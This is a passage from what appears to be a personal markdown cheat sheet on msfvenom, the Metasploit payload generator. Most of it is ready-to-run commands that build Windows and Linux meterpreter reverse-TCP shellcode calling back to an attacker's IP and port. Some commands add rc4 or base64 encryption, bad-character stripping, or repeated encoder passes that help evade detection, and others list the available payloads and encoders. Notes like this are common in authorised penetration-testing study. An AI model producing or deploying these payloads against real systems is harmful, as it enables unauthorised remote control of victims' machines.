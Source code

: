 `$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt rc4 --encrypt-key rc4passw0rd! -f c -o payload_rc4.c`

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt base64 -f c -o payload_base64.c`

### 1.6 - Payloads

- To list the payloads options, for example:

`$ msfvenom -p cmd/unix/reverse_netcat --list-options`

- To list scripting payloads

```
$ msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
..[snip]..
```

- To list payloads with a specific platform

`$ msfvenom -l payloads --platform <platform>`

- To list encoders with a specific platform

`$ msfvenom -l encoders --platform <platform>`

- To list payloads with a specific architecture

`$ msfvenom -l payloads -a <architecture>`

- To list encoders with a specific platform

`$ msfvenom -l encoders -a <architecture>`

## 02 - Generate Shellcode

### 2.1 - Bad Characters

- When removing bad characters `msfvenom` will warn you by throwing an error that in case if the shellcode have problems try to use with [[MSFVenom#1.4 - Encoders|Encoders]] to get around it. Here are the some specific payloads that I've played around with and this is the result I get:

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c`

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c`

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x0a\x0d" -e x64/zutto_dekiru -i 9 -f c > payload-x64-enc.c`

`$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c`

`$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c`

`$ msfvenom -p windows/x64/exec cmd=cmd.exe -b "\x00\x0a\0xd" -f c > payload-x64.c`
